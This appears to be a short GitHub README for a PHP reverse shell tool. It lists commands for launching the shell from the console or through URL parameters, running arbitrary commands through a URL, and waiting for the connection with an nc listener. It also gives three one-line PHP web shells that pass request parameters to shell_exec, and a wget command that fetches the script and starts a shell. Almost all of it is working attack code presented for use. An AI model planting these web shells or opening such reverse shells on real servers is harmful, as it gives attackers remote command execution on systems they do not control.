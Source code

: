 # PHP Smart Reverse Shell script

## Script Commands
Call reverse shell from console
```shell
php ./srs.php 127.0.0.1 1234
```
Call reverse shell from url
```url
https://example.com/srs.php?ip=127.0.0.1&port=1234
```
Run command from url
```url
https://example.com/srs.php?c=ls%20-la
```
## Usefull commands

Wait for reverse shell connection
```shell
nc -l 127.0.0.1 4444
```

Executing shell code with PHP
```PHP
<?php echo shell_exec($_GET['command']);?>
```
or
```PHP
<?=isset($_GET['c'])?shell_exec($_GET['c']):'';?>
```
or 
```PHP
<?php if(isset($_GET['c'])){header('Content-Type: text/plain');die(shell_exec($_GET['c'.'2>&1']));}?>
```

Download Smart Reverse Shell and open shell connection
```shell
wget -O srs.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/php-smart-reverse-shell.php
php ./srs.php 127.0.0.1 1234
```
